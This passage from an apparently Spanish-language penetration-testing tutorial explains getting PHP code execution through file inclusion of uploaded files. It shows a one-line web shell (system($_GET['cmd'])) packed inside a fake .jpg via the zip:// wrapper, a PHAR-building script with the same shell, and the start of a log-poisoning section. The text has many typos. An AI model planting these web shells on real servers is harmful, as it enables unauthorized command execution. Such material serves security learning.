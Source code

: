 Una cosa importante es saber donde se sube el fichero, Para incluido necesitamos subir un fichero, especialmente con imagenes, podemos acceder nuestro subida y saber donde ha llegado
```
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

Cuando pulsamos la ruta e incluimos la desacga el codigo se deberia ejecutar

![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/3ae9e40e-cf24-4d5c-903a-5ad0d97da7e6)

## SUBIDA ZIP

Anteriormente mencionado, hay bastantes tecnicas en muchos casos utilizamos frameworks, una seccion vulnerable para ejecución de código remoto. Hay otras técnicas PHP que utilizan wrappers para archivar. Estas técnicas se hacer para especificar casos donde otras técnicas no funcionan.

Podemos utilizar el envoltorio zip para jecutar código como "shell.jpg"

```
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

Una vez subido "shell.jpg" podemos incluid el wrapper zip://shell.jpg y otras referencias de fichero con #shell.hp codificoad

![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/7e619891-7caf-4204-af50-d09dde43b90f)

## SUBIDA PHAR

Finalmente podemos usar "phar://
```
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```
Este escript es como si fuera un fichero "phat" y se hace una shell con un txt

```
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Ahora noostros deberiamos llamar al jpg y activaria el subfichero.

# ENVENENAMIENTO DE LOG

Anteriormente vimos como incluid una sección que contiene un código PHP,  y al ser jecutado, se crea una función vulnerable hacía la ejecución de privilegios. Los ataques que haremos en esta sceción, es escribir código PHP en una rchivo y tener el control de los logeos

![image](https://github.com/user-attachments/assets/a70edd17-9476-4f10-96f3-117b0dad25e2)
